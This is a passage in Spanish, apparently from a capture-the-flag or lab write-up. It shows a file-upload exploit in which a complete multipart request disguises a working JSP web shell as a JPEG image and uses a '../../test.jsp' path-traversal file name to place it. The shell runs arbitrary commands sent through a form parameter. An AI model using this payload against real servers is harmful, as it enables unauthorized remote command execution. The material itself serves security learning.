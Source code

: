 ### Exploitation

Como tenemos la capacidad de subir archivos, enviaremos una `web shell` para ejecutar comandos a través de un formulario. 

Editaremos la solicitud para enviar el contenido de la `web shell` como parte de la supuesta imagen, además editaremos la extensión del nombre para que sea `.jsp`. 

- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp

~~~ bash
-----------------------------371893311142375625202151022458
Content-Disposition: form-data; name="Upload"; filename="cat.jpeg"
Content-Type: image/jpeg

ÿØÿà






test
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
-----------------------------371893311142375625202151022458
Content-Disposition: form-data; name="top.UploadFileName"

../../test.jsp
-----------------------------371893311142375625202151022458--
~~~
